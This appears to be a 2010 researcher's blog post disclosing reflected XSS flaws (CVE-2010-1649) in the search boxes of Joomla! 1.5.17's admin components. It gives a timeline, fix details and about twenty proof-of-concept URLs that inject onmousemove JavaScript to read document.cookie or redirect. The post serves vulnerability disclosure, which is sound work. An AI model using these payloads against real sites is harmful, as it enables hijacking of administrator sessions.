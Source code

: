 ```yaml
---
title: "Multiple Joomla! XSS Vulnerabilities - CVE-2010-1649"
date: 2010-06-11
categories:
- security research
- appsec
tags:
- xss

thumbnailImagePosition: left
thumbnailImage: /img/multiple-joomla!-xss-vulnerabilities---cve-2010-1649/1.png
---
```


Multiple XSS reported to Joomla! CMS. CVE-2010-1649 assigned.

<!--more-->


## Background

Last month, while doing some tests on a Joomla! installation on my home computer, I came across a very glaring security issue. The Joomla! admin module has several components that are used to manage the site and its users. Several of these components have a search text box that allows users to search through the list of entities displayed. For example the search box in com_users component allows searching the list of users displayed. The issue was with the search boxes not sanitizing user input. That meant you could enter HTML text in the boxes and it would be rendered and displayed! That is exactly the cause of the world’s most common web application vulnerability, Cross Site Scripting or more commonly known as XSS.

This should help beginners understand XSS - http://en.wikipedia.org/wiki/Cross-site_scripting

All versions of Joomla! prior to 1.5.18 are vulnerable to an XSS injection attack in the admin module. The following are the vulnerabaility details and exploit proof of concepts.

**Timeline**

* Project: Joomla!
* SubProject: All
* Severity: High
* Versions: 1.5.17 and all previous 1.5 releases
* Exploit type: XSS Injection
* Reported Date: 2010-May-13
* Fixed Date: 2010-May-28
* Fixed Version: Joomla! 1.5.18
* Update Download Link: http://www.joomla.org/download.html
* Info URL: http://developer.joomla.org/security/news/314-20100501-core-xss-vulnerabilities-in-back-end.html
* BID: 40444 – http://www.securityfocus.com/bid/40444 
* CVE-2010-1649: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-1649 
* Secunia: 39964: http://secunia.com/advisories/39964 

## Vulnerability Details

User can execute arbitrary JavaScript code within the vulnerable application.

The vulnerability arises due to the administrator core components failing to properly sanitize user-supplied input in the "search"
variable. Successful exploitation of this vulnerability could result in, but not limited to, compromise of the application, theft of cookie-based authentication credentials, arbitrary url redirection, disclosure or modification of sensitive data and phishing attacks.

An attacker can send a link with the exploit to an administrator whose access could compromise the application. The following PoC are
available:

* `http://example.com/administrator/index.php?option=com_users&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_users&search=%22%20onmousemove=%22javascript:window.location.assign%28%27http://www.google.com%27%29%22%3E`
* `http://example.com/administrator/index.php?option=com_trash&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_content&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_sections&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_categories&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_frontpage&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_menus&task=view&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_messages&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_banners&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_banners&c=client&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_categories&section=com_banner&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_contact&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_categories&section=com_contact_details&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_newsfeeds&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_categories&section=com_newsfeeds&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_poll&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_weblinks&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_categories&section=com_weblinks&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_modules&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`
* `http://example.com/administrator/index.php?option=com_plugins&search=%22%20onmousemove=%22javascript:alert%28document.cookie%29;%22%3E`


![](/img/multiple-joomla!-xss-vulnerabilities---cve-2010-1649/1.png)

---